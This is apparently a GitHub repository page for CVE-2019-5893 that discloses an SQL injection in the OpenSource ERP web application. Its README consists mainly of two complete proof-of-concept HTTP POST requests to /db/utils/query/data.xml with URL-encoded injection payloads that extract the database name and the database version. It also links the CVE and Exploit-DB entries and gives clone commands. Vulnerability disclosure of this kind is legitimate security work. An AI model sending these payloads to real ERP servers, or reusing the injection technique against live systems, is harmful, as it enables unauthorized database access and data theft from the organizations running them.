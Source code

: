 # OpenSource-ERP-SQL-Injection

CVE-2019-5893 | OpenSource ERP application has SQL Injection vulnerability.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/EmreOvunc](https://github.com/EmreOvunc) |
| Url      | [https://github.com/EmreOvunc/OpenSource-ERP-SQL-Injection](https://github.com/EmreOvunc/OpenSource-ERP-SQL-Injection)                                               |
| Stars    | 5                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2019-5893* erp* sql-injection

</details>

## Readme

# OpenSource-ERP-SQL-Injection
[OpenSource ERP](http://www.nelson-it.ch/) application has SQL Injection vulnerability.

## CVE-2019-5893
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-5893

https://www.exploit-db.com/exploits/46118

# PoC - Get DB name
```
POST /db/utils/query/data.xml HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: http://172.16.118.142:8024
Referer: http://172.16.118.142:8024/
Cache-Control: no-cache
Accept-Language: en-us,en;q=0.5
Cookie: MneHttpSessionId8024=15471285865828
Host: 172.16.118.142:8024
Content-Length: 423
Accept-Encoding: gzip, deflate
Connection: close

sqlend=1&query=%27%7c%7ccast((select+chr(95)%7c%7cchr(33)%7c%7cchr(64)%7c%7c(SELECT+current_database())%7c%7cchr(95)%7c%7cchr(33)%7c%7cchr(64))+as+numeric)%7c%7c%27&schema=mne_application&table=userpref&cols=startweblet%2cregion%2cmslanguage%2cusername%2cloginname%2cpersonid%2clanguage%2cregionselect%2ctimezone%2ccountrycarcode%2cstylename%2cusername%2cstartwebletname&usernameInput.old=session_user&mneuserloginname=test
```
![alt tag](https://emreovunc.com/blog/en/OpenERP-SQL-DBname.png)

# PoC - Get DB version
```
POST /db/utils/query/data.xml HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: http://172.16.118.142:8024
Referer: http://172.16.118.142:8024/
Cache-Control: no-cache
Accept-Language: en-us,en;q=0.5
Cookie: MneHttpSessionId8024=15471285865828
Host: 172.16.118.142:8024
Content-Length: 414
Accept-Encoding: gzip, deflate
Connection: close

sqlend=1&query=%27%7c%7ccast((select+chr(95)%7c%7cchr(33)%7c%7cchr(64)%7c%7c(SELECT+VERSION())%7c%7cchr(95)%7c%7cchr(33)%7c%7cchr(64))+as+numeric)%7c%7c%27&schema=mne_application&table=userpref&cols=startweblet%2cregion%2cmslanguage%2cusername%2cloginname%2cpersonid%2clanguage%2cregionselect%2ctimezone%2ccountrycarcode%2cstylename%2cusername%2cstartwebletname&usernameInput.old=session_user&mneuserloginname=test
```
![alt tag](https://emreovunc.com/blog/en/OpenERP-SQL-DBversion.png)



## Get the content

```
git clone https://github.com/EmreOvunc/OpenSource-ERP-SQL-Injection
cd OpenSource-ERP-SQL-Injection
```

{% embed url="https://github.com/EmreOvunc/OpenSource-ERP-SQL-Injection" %}

<figure><img src="https://avatars.githubusercontent.com/u/15659223?v=4" alt=""><figcaption><p>EmreOvunc</p></figcaption></figure>
